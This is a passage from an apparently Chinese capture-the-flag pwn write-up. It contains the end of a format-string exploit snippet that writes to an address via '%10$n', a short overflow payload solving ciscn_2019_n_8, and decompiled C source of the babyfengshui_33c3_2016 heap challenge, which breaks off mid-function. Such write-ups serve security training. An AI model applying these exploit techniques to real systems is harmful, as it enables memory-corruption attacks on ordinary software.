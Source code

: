 ```python
sla(':', p32(0x804c044) + '%10$n')
sla(':', '4')
```

### ciscn_2019_n_8

IDA 可知需要让 var 的下标为 13 的元素（也就是第 14 个）等于 17，直接按照需求写脚本即可：

```python
sl(p32(17)*14)
```

### babyfengshui_33c3_2016

本题源码大致如下，开启了 canary 和 NX：


```c
void __cdecl __noreturn main()
{
  char v0; // [esp+3h] [ebp-15h]
  int action; // [esp+4h] [ebp-14h]
  size_t input; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  alarm(0x14u);
  while (1)
  {
    puts("0: Add a user");
    puts("1: Delete a user");
    puts("2: Display a user");
    puts("3: Update a user description");
    puts("4: Exit");
    printf("Action:");
    if (__isoc99_scanf("%d", &action) == -1 )
      break;
    if (!action)
    {
      printf("size of description:");
      __isoc99_scanf("%u%c", &input, &v0);
      add(input);
    }
    if (action == 1)
    {
      printf("index:");
      __isoc99_scanf("%d", &input);
      delete((unsigned __int8)input);
    }
    if (action == 2)
    {
      printf("index:");
      __isoc99_scanf("%d", &input);
      display((unsigned __int8)input);
    }
    if (action == 3)
    {
      printf("index:");
      __isoc99_scanf("%d", &input);
      update(input);
    }
    if (action == 4)
    {
```